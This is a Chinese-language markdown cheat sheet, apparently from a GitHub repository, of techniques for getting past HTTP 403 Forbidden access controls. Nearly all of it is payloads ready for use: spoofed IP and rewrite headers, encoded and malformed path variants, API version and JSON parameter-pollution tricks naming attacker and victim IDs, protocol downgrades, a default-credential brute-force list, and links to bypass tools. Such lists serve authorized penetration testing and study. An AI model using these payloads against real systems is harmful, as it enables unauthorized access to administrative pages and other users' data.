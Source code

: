 ## 403页面绕过技巧
### 1.什么是403？
作为普通用户，我们没有访问特定网页的权限（只能管理员等访问），所以当我们尝试访问该类型的网站时，它会给我们返回 403 forbidden。

### 什么是403绕过？
绕过 403 Forbidden Error 表示客户端能够与服务器通信，但服务器不允许客户端访问所请求的内容。
### 2.HTTP 请求方法fuzz
尝试使用不同的请求方法来访问：` GET, HEAD, POST, PUT, DELETE, CONNECT, OPTIONS, TRACE, PATCH, INVENTED, HACK `


### 3.HTTP 标头fuzz
```
X-Originating-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Forwarded: 127.0.0.1
Forwarded-For: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-ProxyUser-Ip: 127.0.0.1
X-Original-URL: 127.0.0.1
Client-IP: 127.0.0.1
True-Client-IP: 127.0.0.1
Cluster-Client-IP: 127.0.0.1
X-ProxyUser-Ip: 127.0.0.1
Host: localhost
```
如果路径受到保护，您可以尝试使用这些其他标头绕过路径保护：
```
X-Original-URL: /admin/console
X-Rewrite-URL: /admin/console
```
### 4.路径fuzz
1. 尝试使用 /%2e/path _（如果访问被代理阻止，这可能会绕过保护），也可以试试_** /%252e**/path（双 URL 编码）
2. 尝试 Unicode 绕过：/%ef%bc%8fpath
#### 其他路径绕过：
```
site.com/secret –> HTTP 403 Forbidden
site.com/SECRET –> HTTP 200 OK
site.com/secret/ –> HTTP 200 OK
site.com/secret/. –> HTTP 200 OK
site.com//secret// –> HTTP 200 OK
site.com/./secret/.. –> HTTP 200 OK
site.com/;/secret –> HTTP 200 OK
site.com/.;/secret –> HTTP 200 OK
site.com//;//secret –> HTTP 200 OK
site.com/secret.json –> HTTP 200 OK 
```
其他api绕过
```
/v3/users_data/1234 --> 403 Forbidden
/v1/users_data/1234 --> 200 OK
{“id”:111} --> 401 Unauthriozied
{“id”:[111]} --> 200 OK
{“id”:111} --> 401 Unauthriozied
{“id”:{“id”:111}} --> 200 OK
{"user_id":"<legit_id>","user_id":"<victims_id>"} (JSON 参数污染)
user_id=ATTACKER_ID&user_id=VICTIM_ID (参数污染)
```
## 更换协议版本
如果使用 HTTP/1.1，请尝试使用 1.0，或者测试看它是否支持 2.0。
## 暴力破解
```
admin    admin
admin    password
admin    1234
admin    admin1234
admin    123456
root     toor
test     test
guest    guest
```
## 自动化工具使用
1. https://github.com/lobuhi/byp4xx
2. https://github.com/iamj0ker/bypass-403
3. https://github.com/gotr00t0day/forbiddenpass
4. Burp扩展：https://portswigger.net/bappstore/444407b96d9c4de0adb7aed89e826122






